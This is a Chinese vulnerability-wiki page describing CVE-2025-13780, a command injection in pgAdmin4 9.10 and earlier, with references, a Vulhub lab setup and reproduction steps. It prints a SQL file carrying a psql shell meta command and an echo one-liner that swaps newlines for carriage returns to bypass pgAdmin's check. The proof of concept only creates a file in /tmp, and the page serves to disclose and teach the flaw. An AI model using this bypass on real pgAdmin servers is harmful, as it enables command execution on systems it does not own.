







# pgAdmin4 ≤ 9.10 后台 Restore 工具命令注入漏洞 CVE-2025-13780

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：后台登录、可连接数据库并使用PLAIN Restore；文称<=9.10，9.11修复
- 证据范围：有正常拦截对照与CR换行绕过，条件和执行位置较明确；仅截图展示文件创建未独立验证

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 修复节仅更新最新版本，应记录明确9.11及适用边界
- 命令在pgAdmin侧psql进程执行，与数据库服务端权限区分
- 环境compose文件路径缺失

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

pgAdmin 是一个流行且功能丰富的开源 PostgreSQL 数据库管理和开发平台，广泛被数据库管理员和开发者用于通过 Web 界面管理 PostgreSQL 数据库。

pgAdmin4 9.11 版本之前存在一个远程代码执行漏洞。pgAdmin4 的 restore 功能使用 psql 命令行程序执行用户上传的纯文本格式 sql 文件。攻击者可以利用特殊字符绕过 pgAdmin4 对文件内容的安全检查，在 sql 文件中嵌入 meta command (\!)，使 psql 程序执行系统命令。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2025-13780
- https://github.com/advisories/ghsa-fxmw-jcgr-w44v
- [pgadmin-org/pgadmin4#9368](https://github.com/pgadmin-org/pgadmin4/issues/9368)
- https://github.com/pgadmin-org/pgadmin4/commit/d5a909f14cb9713d89b49481ad1929fad89f4576

## 漏洞影响

```
pgAdmin4 ≤ 9.10
```

## 环境搭建

Vulhub 执行以下命令启动 pgAdmin4 9.10 服务器和 PostgreSQL 数据库：

```shell
docker compose up -d
```

服务器启动后，访问 `http://your-ip:5050/` 进入 pgAdmin4 登录页面。pgAdmin4 的登录凭据为 `vulhub@example.com:vulhub`。




利用此漏洞需要一个可访问的 PostgreSQL 数据库实例。PostgreSQL 数据库已包含在 docker-compose.yml 中，并已在 pgAdmin4 的服务器列表中预配置，凭据为 `vulhub:vulhub`。

## 漏洞复现

点击 `Services -> main -> Databases -> vulhub`，右键 `Restore` 打开数据库恢复工具：




尝试上传一个含有 meta command (`\!`) 的 sql 文件：

```sql
SELECT 1;
\! bash -c 'touch /tmp/awesome_poc_1'
```




format 选用 `PLAIN` 并执行 `Restore`：




可以看到被安全检查拦截：




将文件中的新行替换为 CR(`\r`)，即可绕过该安全检查：

```shell
echo -ne "SELECT 1;\r\\! bash -c 'touch /tmp/awesome_poc_2'\r" > payload.sql
```

重新上传并执行 `Restore`：




可以看到容器的 `/tmp` 目录下存在文件，系统命令被成功执行：




## 漏洞修复

更新至最新版本。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
